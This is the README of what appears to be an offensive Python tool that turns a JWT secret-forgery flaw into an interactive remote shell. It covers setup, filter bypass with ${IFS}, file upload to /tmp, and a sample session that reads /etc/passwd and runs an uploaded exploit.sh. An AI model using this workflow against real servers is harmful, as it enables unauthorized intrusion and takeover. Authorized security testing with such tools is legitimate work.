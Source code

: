 # JWT RCE Forward Shell

An interactive Python shell to exploit Remote Code Execution (RCE) vulnerabilities via insecure JWT tokens.

## ⚠️ Warning

**This tool is intended for educational purposes and authorized security testing only.**

Using this tool against systems without explicit authorization is illegal. The author disclaims all responsibility for misuse.

## 📋 Description

This Python script provides an interactive shell that allows remote command execution on a vulnerable server by exploiting JWT tokens with a known secret. It includes advanced features such as directory management and file transfer.

## ✨ Features

- **Interactive shell**: Intuitive command-line interface
- **System navigation**: Functional `cd` and `pwd` commands
- **File transfer**: Binary file upload via base64 or hexadecimal
- **Filter bypass**: Uses `${IFS}` to replace spaces
- **Persistent context**: Maintains working directory between commands

## 🔧 Prerequisites

```bash
pip install requests pyjwt
```

## 📦 Installation

```bash
git clone https://github.com/your-username/jwt-rce-shell.git
cd jwt-rce-shell
pip install -r requirements.txt
```

## 🚀 Configuration

Modify the constants in the script before use:

```python
TARGET = 'http://TARGET/'      # Target URL
SECRET = "JWT_SECRET"          # Known JWT secret
```

## 💻 Usage

### Launch

```bash
python forward_shell.py
```

### Special commands

| Command | Description | Example |
|----------|-------------|---------|
| `cd <path>` | Change directory | `cd /tmp` |
| `pwd` | Display current directory | `pwd` |
| `upload <local> [remote]` | Upload a file (base64) | `upload exploit.sh` |
| `uploadhex <local> [remote]` | Upload a file (hex) | `uploadhex payload.bin` |
| `exit` / `quit` | Exit the shell | `exit` |

### System commands

All standard Unix commands are supported:

```bash
[/tmp]$ ls -la
[/tmp]$ cat /etc/passwd
[/tmp]$ whoami
[/tmp]$ uname -a
```

## 📝 Example Session

```
============================================================
Forward shell with cd and upload support
============================================================
Special commands:
  cd <path>                    - Change directory
  upload <local> [remote]      - Upload a file (base64)
  uploadhex <local> [remote]   - Upload a file (hex)
  pwd                          - Show current directory
  exit/quit                    - Exit
============================================================

[*] Initial directory: /var/www/html

[/var/www/html]$ cd /tmp
[+] Current directory: /tmp

[/tmp]$ upload exploit.sh
[*] Uploading exploit.sh (256 bytes, 344 bytes encoded)
[*] Sending in 1 chunks...
[+] All chunks sent to /tmp/.upload_12345
[+] Upload successful!

[/tmp]$ ./exploit.sh
```

## 📄 License

This project is provided for educational purposes only. Use it responsibly.

**Reminder**: Test only on systems for which you have explicit authorization.
This project was generated in part with AI
